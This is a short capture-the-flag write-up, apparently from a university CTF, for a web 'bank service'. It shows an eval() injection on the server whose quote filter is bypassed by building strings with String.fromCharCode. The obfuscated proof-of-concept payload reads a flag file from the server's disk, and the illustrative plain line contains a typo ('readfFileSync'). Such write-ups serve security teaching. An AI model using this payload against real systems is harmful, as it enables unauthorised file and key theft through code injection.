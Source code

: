 # Writeup for bank service

## PoC code
```javascript
require(String.fromCharCode(97+5)+String.fromCharCode(97+18)).readFileSync(String.fromCharCode(47) +  String.fromCharCode(118) +  String.fromCharCode(97) +  String.fromCharCode(114) +  String.fromCharCode(47) +  String.fromCharCode(99) +  String.fromCharCode(116) +  String.fromCharCode(102) +  String.fromCharCode(47) +  String.fromCharCode(102) +  String.fromCharCode(108) +  String.fromCharCode(97) +  String.fromCharCode(103)).toString()
```

## Description
In the "My Page", there is a `eval()`
function [when message is processed by server][1]. So we can execute any
javascript for at server side, but there is a small filter.

It filters some chars including `'`, and `"`. Because of that, we cannot use
strings.

However, we can bypass this using the `String.fromCharCode()` function. This
function produce a single character from ASCII code, so by chaining that code we
can produce any string freely.

To read a key file, it is enough to execute this:
```
require('fs').readfFileSync(keypath).toString()
```

With proper encoding, we can get final PoC code described as above.

[1]: https://github.com/KAIST-IS521/2017ctf-public/blob/bf48232a3c3d0801d96c85d5011162b5c03a95fa/mall/webServer/routes/mypage.js#L70-L74
